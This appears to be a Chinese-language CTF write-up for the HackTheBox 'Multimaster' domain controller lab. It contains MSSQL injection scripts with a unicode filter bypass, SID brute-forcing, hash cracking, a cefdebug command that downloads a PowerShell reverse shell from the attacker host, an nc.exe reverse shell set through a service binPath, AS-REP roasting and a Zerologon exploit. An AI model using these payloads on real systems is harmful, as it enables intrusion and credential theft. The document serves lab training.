


# README

## 信息收集

### nmap

```shell
sudo nmap -p- --min-rate 10000 10.10.10.179
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-20 12:45 CST
Nmap scan report for 10.10.10.179
Host is up (0.36s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49667/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49678/tcp open  unknown
49698/tcp open  unknown
49742/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 20.89 seconds

```


```shell
sudo nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389 -sC -sV  10.10.10.179
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-20 12:47 CST
Nmap scan report for 10.10.10.179
Host is up (0.34s latency).

PORT     STATE    SERVICE           VERSION
53/tcp   open     domain            Simple DNS Plus
80/tcp   open     http              Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp   open     kerberos-sec      Microsoft Windows Kerberos (server time: 2023-09-20 04:54:24Z)
135/tcp  open     msrpc             Microsoft Windows RPC
139/tcp  open     netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  filtered ldap
445/tcp  open     microsoft-ds      Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGACORP)
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open     ldapssl?
3268/tcp filtered globalcatLDAP
3269/tcp open     globalcatLDAPssl?
3389/tcp open     ms-wbt-server     Microsoft Terminal Services
|_ssl-date: 2023-09-20T04:56:05+00:00; +6m59s from scanner time.
| ssl-cert: Subject: commonName=MULTIMASTER.MEGACORP.LOCAL
| Not valid before: 2023-09-19T04:39:56
|_Not valid after:  2024-03-20T04:39:56
| rdp-ntlm-info:
|   Target_Name: MEGACORP
|   NetBIOS_Domain_Name: MEGACORP
|   NetBIOS_Computer_Name: MULTIMASTER
|   DNS_Domain_Name: MEGACORP.LOCAL
|   DNS_Computer_Name: MULTIMASTER.MEGACORP.LOCAL
|   DNS_Tree_Name: MEGACORP.LOCAL
|   Product_Version: 10.0.14393
|_  System_Time: 2023-09-20T04:55:31+00:00
5985/tcp open     http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open     mc-nmf            .NET Message Framing
Service Info: Host: MULTIMASTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: MULTIMASTER
|   NetBIOS computer name: MULTIMASTER\x00
|   Domain name: MEGACORP.LOCAL
|   Forest name: MEGACORP.LOCAL
|   FQDN: MULTIMASTER.MEGACORP.LOCAL
|_  System time: 2023-09-19T21:55:31-07:00
|_clock-skew: mean: 1h31m00s, deviation: 3h07m53s, median: 6m58s
| smb2-time:
|   date: 2023-09-20T04:55:26
|_  start_date: 2023-09-20T04:40:02
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode:
|   311:
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.16 seconds

```

megacorp.local,multimaster.megacorp.local

|   Domain name: MEGACORP.LOCAL
|   Forest name: MEGACORP.LOCAL
|   FQDN: MULTIMASTER.MEGACORP.LOCAL


### 53端口

```shell
12:55:46 › dig axfr @10.10.10.179 megacorp.local

; <<>> DiG 9.10.6 <<>> axfr @10.10.10.179 megacorp.local
; (1 server found)
;; global options: +cmd
; Transfer failed.

feng at fengs-MacBook-Pro.local in [~/github/CTF/Web/渗透/hackthebox/Cascade/Audit]  on git:main ✗  987e539c "commit"
12:56:08 › dig axfr @10.10.10.179 multimaster.megacorp.local

; <<>> DiG 9.10.6 <<>> axfr @10.10.10.179 multimaster.megacorp.local
; (1 server found)
;; global options: +cmd
; Transfer failed.
```


### 135端口

```shell
rpcclient -U "" -N 10.10.10.179
Can't load /opt/homebrew/etc/smb.conf - run testparm to debug it
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> exit
```

### 389端口

```shell
ldapsearch -x -h 10.10.10.179  -b "dc=megacorp,dc=local" '(objectClass=person)'
# extended LDIF
#
# LDAPv3
# base <dc=megacorp,dc=local> with scope subtree
# filter: (objectClass=person)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A4C, comment: In order to perform this ope
 ration a successful bind must be completed on the connection., data 0, v3839

# numResponses: 1

ldapsearch -x -h 10.10.10.179  -b "dc=multimaster,dc=megacorp,dc=local" '(objectClass=person)'
# extended LDIF
#
# LDAPv3
# base <dc=multimaster,dc=megacorp,dc=local> with scope subtree
# filter: (objectClass=person)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A4C, comment: In order to perform this ope
 ration a successful bind must be completed on the connection., data 0, v3839

# numResponses: 1
```


### 445端口

```shell
smbclient -N -L //10.10.10.179/
Can't load /opt/homebrew/etc/smb.conf - run testparm to debug it
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
SMB1 disabled -- no workgroup available
```


### 88端口

```shell
./kerbrute_darwin_amd64 userenum --dc 10.10.10.179 -d megacorp.local /Users/feng/many-ctf/rockyou.txt
```


### 80端口

有个登录款和一个查询框。


## Mssql注入

利用unicode可以绕过过滤：

```shell
payload="a' union select 1,2,3,4,Name FROM Master..SysDatabases where name not in ('master','aspcms')--"
```

得到数据库：

```shell
Hub_DB
msdb
model
tempdb
```

查表：

```shell
payload="a' union select 1,2,3,4,name from Hub_DB.sys.all_objects where type='U' AND is_ms_shipped=0--"
```

得到表名：

```shell
Colleagues
Logins
```

查列名：

```shell
payload="a' union select 1,2,3,4,COLUMN_NAME from Hub_DB.information_schema.columns where TABLE_NAME='Logins'--"
```

得到：

```shell
id
password
username
```


```python
import json

import requests


def cryptoUnicode(sstr):
    res = ""
    for i in sstr:
        res+="\\u00"+hex(ord(i)).replace("0x","")
    return res

url="http://10.10.10.179/api/getColleagues"

#payload="a' union select 1,2,3,4,name from Hub_DB.sys.all_objects where type='U' AND is_ms_shipped=0--"
payload="a' union select 0,0,id,username,password from Hub_DB.dbo.Logins--"

data={
    "name":cryptoUnicode(payload)
}
headers = {'Content-Type': 'application/json'}
r=requests.post(url=url,data='{"name":"'+ cryptoUnicode(payload) + '"}',headers=headers)
print(r.text)

```

```json
[{"id":0,"name":"0","position":"1","email":"sbauer","src":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739"},{"id":0,"name":"0","position":"2","email":"okent","src":"fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa"},{"id":0,"name":"0","position":"3","email":"ckane","src":"68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813"},{"id":0,"name":"0","position":"4","email":"kpage","src":"68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813"},{"id":0,"name":"0","position":"5","email":"shayna","src":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739"},{"id":0,"name":"0","position":"6","email":"james","src":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739"},{"id":0,"name":"0","position":"7","email":"cyork","src":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739"},{"id":0,"name":"0","position":"8","email":"rmartin","src":"fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa"},{"id":0,"name":"0","position":"9","email":"zac","src":"68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813"},{"id":0,"name":"0","position":"10","email":"jorden","src":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739"},{"id":0,"name":"0","position":"11","email":"alyx","src":"fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa"},{"id":0,"name":"0","position":"12","email":"ilee","src":"68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813"},{"id":0,"name":"0","position":"13","email":"nbourne","src":"fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa"},{"id":0,"name":"0","position":"14","email":"zpowers","src":"68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813"},{"id":0,"name":"0","position":"15","email":"aldom","src":"9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739"},{"id":0,"name":"0","position":"16","email":"minatotw","src":"cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc"},{"id":0,"name":"0","position":"17","email":"egre55","src":"cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc"}]
```

共有这四个hash：

```shell
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
```

```shell
hashcat hash.txt /Users/feng/many-ctf/rockyou.txt --force

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
  10800 | SHA2-384                                                   | Raw Hash
  17500 | SHA3-384                                                   | Raw Hash
  17900 | Keccak-384                                                 | Raw Hash
  10870 | sha384(utf16le($pass))                                     | Raw Hash

```

都试一下，在17900的时候爆出了三个hash的结果：

```
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
```

剩下的cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc还没有被解出来

整理出来：

```
password1:sbauer,shayna,james,cyork,jorden,aldom
finance1:ckane,kpage,zac,ilee,zpowers
banking1:okent,rmartin,alyx,nbourne

:minatotw,egre55
```

但是都登不上。

```shell
./cme-linux smb 10.10.10.179 -u user.txt -p pass.txt --continue-on-success
```

接下来就是学习，参考https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/

写个脚本：

```shell
import time
import requests


def cryptoUnicode(sstr):
    res = ""
    for i in sstr:
        res+="\\u00"+hex(ord(i)).replace("0x","")
    return res

url="http://10.10.10.179/api/getColleagues"
baseSID= '0x0105000000000005150000001c00d1bcd181f1492bdfc236'
for i in range(500,20000):
    addStr = '{:08x}'.format(i)
    piece1 = addStr[:2]
    piece2 = addStr[2:4]
    piece3 = addStr[4:6]
    piece4 = addStr[6:]
    #print(piece1,piece2,piece3,piece4)
    addStr = piece4+piece3+piece2+piece1
    #payload="a' union select 1,2,3,4,name from Hub_DB.sys.all_objects where type='U' AND is_ms_shipped=0--"
    payload="a' union select 0,0,0,0,SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236"+addStr+")--"

    data={
        "name":cryptoUnicode(payload)
    }
    headers = {'Content-Type': 'application/json'}
    r=requests.post(url=url,data='{"name":"'+ cryptoUnicode(payload) + '"}',headers=headers)
    if r.status_code==403:
        time.sleep(30)
        i = i-1
    if "MEGACORP" in r.text:
        res = r.text.replace('''[{"id":0,"name":"0","position":"0","email":"0","src":"''',"").replace('"}]',"")
        print("["+str(i)+"]:"+res.replace("\\\\","\\"))
    time.sleep(1.5)
```

因为时间问题没有跑全，暂时跑这些：

```shell
Administrator
Guest
krbtgt
DefaultAccount
Domain Admins
Domain Users
Domain Guests
Domain Computers
Domain Controllers
Cert Publishers
Schema Admins
Enterprise Admins
Group Policy Creator Owners
Read-only Domain Controllers
Cloneable Domain Controllers
Protected Users
Key Admins
Enterprise Key Admins
RAS and IAS Servers
Allowed RODC Password Replication Group
Denied RODC Password Replication Group
MULTIMASTER$
DnsAdmins
DnsUpdateProxy
svc-nas
Privileged IT Accounts
tushikikatomo
andrew
lana
alice
test
```

但是也有能用的：

```shell
./cme-linux smb 10.10.10.179 -u user.txt -p pass.txt --continue-on-success
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP.LOCAL\tushikikatomo:finance1
```


## tushikikatomo用户

```shell
evil-winrm -i 10.10.10.179 -u tushikikatomo -p finance1
```


看一下Users目录发现还有几个用户：

```shell
*Evil-WinRM* PS C:\Users\alcibiades\Documents> dir ..\..\


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/7/2020   7:24 PM                .NET v4.5
d-----         1/7/2020   7:24 PM                .NET v4.5 Classic
d-----         1/9/2020   3:18 AM                Administrator
d-----         3/9/2020   3:20 AM                alcibiades
d-----         3/9/2020   2:53 AM                cyork
d-----         1/9/2020   5:14 PM                jorden
d-----         3/7/2020   8:38 AM                MSSQLSERVER
d-r---       11/20/2016   5:24 PM                Public
d-----         1/9/2020   5:12 PM                sbauer
d-----         3/7/2020   8:38 AM                SQLTELEMETRY
```

使用PrivescCheck收集信息：

```shell
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended"
```


```shell
????????????????????????????????????????????????????????????????
? CATEGORY ? TA0043 - Reconnaissance                           ?
? NAME     ? Non-default applications                          ?
????????????????????????????????????????????????????????????????
? Get information about non-default and third-party            ?
? applications by searching the registry and the default       ?
? install locations.                                           ?
????????????????????????????????????????????????????????????????
[*] Result: Informational (8 findings)

Name                         FullName
----                         --------
Microsoft SQL Server         C:\Program Files (x86)\Microsoft SQL Server
Microsoft Visual Studio 10.0 C:\Program Files (x86)\Microsoft Visual Studio 10.0
Microsoft                    C:\Program Files\Microsoft
Microsoft SQL Server         C:\Program Files\Microsoft SQL Server
Microsoft Visual Studio 10.0 C:\Program Files\Microsoft Visual Studio 10.0
Microsoft VS Code            C:\Program Files\Microsoft VS Code
VMware                       C:\Program Files\VMware
VMware Tools                 C:\Program Files\VMware\VMware Tools
```

发现了Microsoft Visual Studio 10.0。

查一下存在漏洞，拿cefdebug工具打：


```shell
./cefdebug.exe
./cefdebug.exe --url ws://127.0.0.1:41417/69787de1-28bd-4f5b-a72e-74ce36c7fe23 --code "process.mainModule.require('child_process').exec('powershell IEX(New-Object Net.WebClient).DownloadString(\'http://10.10.14.14:39554/powershell-reverse-shell-39502.ps1\')')"

PSReverseShell# whoami
megacorp\cyork
```


## cyork用户

翻找一下目录，发现C:\inetpub下面是80端口的web目录。

里面的bin目录里面有MultimasterAPI.dll，用smb传过来：

```shell
python3.10 smbserver.py share ./share

copy MultimasterAPI.dll \\10.10.14.14\share

ls ./share
MultimasterAPI.dll

```

拿dnSpy反编译后查看Controller：



```shell
server=localhost;database=Hub_DB;uid=finder;password=D3veL0pM3nT!;
```

用D3veL0pM3nT!进行密码喷洒

```shell
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP.LOCAL\sbauer:D3veL0pM3nT!
```


```shell
evil-winrm -i 10.10.10.179 -u sbauer -p 'D3veL0pM3nT!'
*Evil-WinRM* PS C:\Users\sbauer\Documents> whoami
megacorp\sbauer

```

查看BloodHound的信息：



发现SBAUER用户对JORDEN用户有GenericWrite权限，可以修改其doesnotrequirepreauth属性的值来不需要 Kerberos 预身份验证，然后进行AS-REP Roasting攻击。

```shell
#evil-winrm必须先加载Bypass-4MSI才能powerview
menu
Bypass-4MSI
Import-Module .\powerview.ps1
Get-ADUser jorden | Set-ADAccountControl -doesnotrequirepreauth $true

python3.10 GetNPUsers.py -dc-ip 10.10.10.179 megacorp.local/jorden
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra

Password:
[*] Cannot authenticate jorden, getting its TGT
$krb5asrep$23$jorden@MEGACORP.LOCAL:1cab44e2304f3a6820a037c46152a55e$9ba9f0316bd0aec8dda2626276446483988f8d6913fb344cdf1b8070363abbddaf0beb318b4aa1c4cc08f8258cc57e414d329502b5bf2c16e0f9981ca6eb5ef34e52435e4671ea0b991fe9141865177a18d6f8dfd16312513ea89fbe86f90ef61307b1f6d7b2c92aaeadb935000d3a5a2d00ba5ee3edb5b5ca533bc6a6275b664b0029808671072cd9b0a5e61633f600e8877a52c780d8f4eee881bdf08580e206a66fbea88f2bbce3d127480dcad3eec9c5abf1a6b18b50b5db928b4afca216cab0eccbd32d04de29636815a95e205c98289cc811e78b1d9374e06cdffeca49c3a697b0245fff351194e558e1fa0816

```


```shell
hashcat -m 18200 hash.txt /Users/feng/many-ctf/rockyou.txt --force

$krb5asrep$23$jorden@MEGACORP.LOCAL:1cab44e2304f3a6820a037c46152a55e$9ba9f0316bd0aec8dda2626276446483988f8d6913fb344cdf1b8070363abbddaf0beb318b4aa1c4cc08f8258cc57e414d329502b5bf2c16e0f9981ca6eb5ef34e52435e4671ea0b991fe9141865177a18d6f8dfd16312513ea89fbe86f90ef61307b1f6d7b2c92aaeadb935000d3a5a2d00ba5ee3edb5b5ca533bc6a6275b664b0029808671072cd9b0a5e61633f600e8877a52c780d8f4eee881bdf08580e206a66fbea88f2bbce3d127480dcad3eec9c5abf1a6b18b50b5db928b4afca216cab0eccbd32d04de29636815a95e205c98289cc811e78b1d9374e06cdffeca49c3a697b0245fff351194e558e1fa0816:rainforest786
```

得到了jorden:rainforest786

```shell
*Evil-WinRM* PS C:\Users\jorden\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== =============================================
megacorp\jorden S-1-5-21-3167813660-1240564177-918740779-3110


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
MEGACORP\Developers                        Group            S-1-5-21-3167813660-1240564177-918740779-3119 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

```


发现用户jorden属于Server Operators组。


```shell
*Evil-WinRM* PS C:\Users\jorden\Documents> services

Path                                                                                                                 Privileges Service
----                                                                                                                 ---------- -------
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_state.exe                                                           True aspnet_state
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5EB04B3D-85AE-4574-88FB-F22CF32D39F5}\MpKslDrv.sys       True MpKslDrv
"C:\Program Files\Microsoft SQL Server\MSSQL14.MSSQLSERVER\MSSQL\Binn\sqlservr.exe" -sMSSQLSERVER                          True MSSQLSERVER
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost
"C:\Program Files (x86)\Microsoft SQL Server\90\Shared\sqlbrowser.exe"                                                     True SQLBrowser
"C:\Program Files\Microsoft SQL Server\MSSQL14.MSSQLSERVER\MSSQL\Binn\SQLAGENT.EXE" -i MSSQLSERVER                         True SQLSERVERAGENT
"C:\Program Files\Microsoft SQL Server\MSSQL14.MSSQLSERVER\MSSQL\Binn\sqlceip.exe" -Service                                True SQLTELEMETRY
"C:\Program Files\Microsoft SQL Server\90\Shared\sqlwriter.exe"                                                            True SQLWriter
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.1911.3-0\NisSrv.exe"                                              True WdNisSvc
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.1911.3-0\MsMpEng.exe"                                             True WinDefend

```


利用Server Operators组提权那即可

```powershell
sc.exe config VMTools binPath="C:\Users\jorden\Documents\nc.exe -e cmd.exe 10.10.14.14 39502"
sc.exe stop VMTools
sc.exe start VMTools
```


此外这题还有cve-2020-1472漏洞，可以直接通

```shell
python3.10 cve-2020-1472-exploit.py MULTIMASTER 10.10.10.179
Performing authentication attempts...
======================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

然后dump hash：

```shell
python3.10 secretsdump.py   -just-dc -no-pass MULTIMASTER\$@10.10.10.179
Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:69cbf4a9b7415c9e1caf93d51d971be0:::
```

